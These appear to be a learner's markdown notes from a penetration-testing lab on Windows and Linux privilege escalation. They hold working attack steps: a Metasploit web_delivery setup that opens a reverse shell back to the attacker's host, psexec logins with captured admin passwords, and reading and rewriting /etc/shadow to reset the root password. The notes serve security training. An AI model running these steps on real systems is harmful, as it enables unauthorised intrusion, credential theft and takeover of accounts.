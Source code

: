 # Privilege Escalation
## Windows Privilege Escalation
### Identifying Windows Privilege Escalation Vulnerabilities
**Pricesc check script**
1. msfconsole: `search  web_delivery` -> `exploit/multi/script/web_delivery` -> `use 1` -> set LHOST, set target PSH, set payload windows/shell/reverse_tcp -> set PSH-EncodedCommand false
2.  copy and run the command that is propmpted in the script on the target windows machine 


After getting inistial acces and have a meterpreter session
  1. meterpreter: `cd C:\\` -> `cd Users` -> `cd student` -> `cd Desktop`
  2. navigate to the PrivescCheck directory that we popyed over(might be in a temp folder)
  3. `shell`
  4. Documentation: https://github.com/itm4n/PrivescCheck 
  
### Windows Privelege Escalation
**psexec**
1. Attack machine: `psexec.py username@target.ip` -> enter optained admin password(from prev notes)
2. if meterpreter session: `search exploit/windows/smb/psexex_psh` -> set Options and run

## Linux privilege escalation
**Weak permissions**
We already have low priv access and we are on Target machine
1. Terminal(find files that can help us elevate our priveleges):`find / -not -type l -perm -o+w`, etc/shadow, `cat /etc/shadow` -> can we modify the etc/shadow file? `ls -al /etc/shadow`, if `-rw-rw-rw-` then yes
2. change password: `openssl passwd -1 -salt abc password`, you will get the hashed password back, then replace it in the shadow file
3. change /etc/shadow root password: `vim /etc/shadow`
 ![alt text](/assets/change_shadow_file.png)